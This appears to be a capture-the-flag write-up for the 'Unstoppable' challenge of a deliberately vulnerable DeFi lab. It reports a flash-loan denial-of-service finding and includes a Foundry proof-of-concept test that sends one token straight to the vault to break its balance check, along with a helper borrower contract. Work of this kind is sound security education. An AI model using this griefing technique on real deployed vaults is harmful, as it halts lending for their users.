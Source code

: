 # High 

### [H-1] `Unstoppable::flashloan`, flash loans can be haulted if balance of `Unstoppable::totalSupply` & `Unstoppable::totalAssets` are not 1:1. 

``` solidity 
        uint256 balanceBefore = totalAssets();
        // shares must be 1:1 with balance
        if (convertToShares(totalSupply) != balanceBefore) revert InvalidBalance(); // enforce ERC4626 requirement
```

### Proof of Code: Any account can hault flash loans if they send `Unstoppable` an unexpected amount of assets. 

``` solidity 

    function test_unstoppable() public checkSolvedByPlayer {

        uint256 _totalsupply = vault.totalSupply();
        uint256 shares = vault.convertToShares(_totalsupply);

        token.transfer(address(vault), 1);
        console.log("balance of vault: %s", vault.totalAssets());
        console.log("total number of shares: %s", shares);

        vm.expectRevert();
        vault.flashLoan(recipient, address(token), 2e18, "");
    }

```
``` diff
    function setUp() public {
        startHoax(deployer);
        // Deploy token and vault
+      recipient = new FlashLoanRecipient(token,vault);
        token = new DamnValuableToken();
```




``` solidity 
contract FlashLoanRecipient is IERC3156FlashBorrower {
    DamnValuableToken public token;
    UnstoppableVault public vault;

    constructor(DamnValuableToken _token, UnstoppableVault _vault) {
        token = _token;
        vault = _vault;
    }

    function onFlashLoan(address initiator, address token, uint256 amount, uint256 fee, bytes calldata)
        external
        returns (bytes32)
    {
        console.log("FlashLoan Recipient balance during execution: %s", DamnValuableToken(token).balanceOf(address(this)));

        DamnValuableToken(token).approve(address(vault), amount + fee);

        return keccak256("IERC3156FlashBorrower.onFlashLoan");
    }
}
```
